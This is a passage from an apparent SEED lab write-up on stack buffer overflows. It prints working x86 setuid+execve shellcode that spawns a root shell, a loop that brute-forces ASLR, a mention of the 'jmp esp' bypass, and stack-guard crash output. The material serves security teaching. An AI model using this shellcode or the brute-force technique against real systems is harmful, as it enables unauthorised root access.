 To work around this, we simply call `setuid(0)` in our shellcode. The new `setuid && execve` shellcode is:
```C
const char shellcode[]= "\x31\xdb"
            "\x8d\x43\x17"
            "\x99"
            "\xcd\x80"
            "\x31\xc9"
            "\x51"
            "\x68\x6e\x2f\x73\x68"
            "\x68\x2f\x2f\x62\x69"
            "\x8d\x41\x0b"
            "\x89\xe3"
            "\xcd\x80";
```
This time we can get root shell successfully:
```
seed@seed-desktop:~/lab/2$ ./stack 
root@seed-desktop:/home/seed/lab/2# id
uid=0(root) gid=1000(seed)
```

### Task 3: Address Randomization

After address randomization is turned on, our exploit will not work every time. We try it for multiple times with a while loop:
```bash
$ sh -c "while [ 1 ]; do ./stack; done;"
```
We count the output and found that after 387 times of trying, the exploit succeed.

To bypass ASLR, it's possible to use the famous `jmp esp` technique.

We find some non-ASLR modules and search for the instruction `jmp esp` and overwrite `Return Address` to be the address of this `jmp esp`. 

It actually has a lot more details and also exists other method of bypassing it. In this report, we will skip the demonstration of these for simplicity.


### Task 4: Stack Guard

We compile `stack.c` with stack guard enabled.
```
$ gcc -o stack_guarded stack.c
$ ./stack_guarded
*** stack smashing detected ***: ./stack_guarded terminated
======= Backtrace: =========
/lib/tls/i686/cmov/libc.so.6(__fortify_fail+0x48)[0xb8022da8]
/lib/tls/i686/cmov/libc.so.6(__fortify_fail+0x0)[0xb8022d60]
./stack_guarded[0x8048513]
[0x90909090]
======= Memory map: ========
08048000-08049000 r-xp 00000000 08:01 8703       /home/seed/lab/2/stack_guarded
08049000-0804a000 r--p 00000000 08:01 8703       /home/seed/lab/2/stack_guarded
0804a000-0804b000 rw-p 00001000 08:01 8703       /home/seed/lab/2/stack_guarded
089ac000-089cd000 rw-p 089ac000 00:00 0          [heap]
b7f08000-b7f15000 r-xp 00000000 08:01 278049     /lib/libgcc_s.so.1
b7f15000-b7f16000 r--p 0000c000 08:01 278049     /lib/libgcc_s.so.1
b7f16000-b7f17000 rw-p 0000d000 08:01 278049     /lib/libgcc_s.so.1
b7f24000-b7f25000 rw-p b7f24000 00:00 0 
b7f25000-b8081000 r-xp 00000000 08:01 295506     /lib/tls/i686/cmov/libc-2.9.so
b8081000-b8082000 ---p 0015c000 08:01 295506     /lib/tls/i686/cmov/libc-2.9.so
b8082000-b8084000 r--p 0015c000 08:01 295506     /lib/tls/i686/cmov/libc-2.9.so
b8084000-b8085000 rw-p 0015e000 08:01 295506     /lib/tls/i686/cmov/libc-2.9.so
b8085000-b8088000 rw-p b8085000 00:00 0 
b8094000-b8097000 rw-p b8094000 00:00 0 
```